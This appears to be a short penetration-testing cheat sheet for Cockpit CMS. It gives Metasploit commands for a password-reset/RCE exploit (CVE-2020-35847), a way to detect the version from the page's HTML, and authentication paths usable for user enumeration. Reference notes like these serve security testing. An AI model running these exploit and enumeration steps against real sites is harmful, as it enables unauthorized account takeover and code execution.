 ```yaml
---
title: Cockpit CMS Pentesting
description: Cockpit CMS is a content management system for publishing contents.
tags:
    - CMS
    - Web
refs:
date: 2023-02-05
draft: false
---
```


## Enumeration & Remote Code Execution (RCE) & Reverse Shell

```bash
# Reset password  (CVE-2020-35847)
msf> use exploit/multi/cockpit_cms_rce
msf> set USER admin
msf> run
```

<br />

## Version Detection

Cockpit CMS version is displayed as the value of “data-version” attribute in html tag.

```bash
<html lang="en" data-base="/" data-route="/" data-version="0.11.1" data-locale="en">
```

<br />

## Common Directories

```bash
/auth/check # We can enumerate users using the path
/auth/forgotpassword
/auth/index
/auth/login
/auth/requestreset # We can enumerate users using the path
```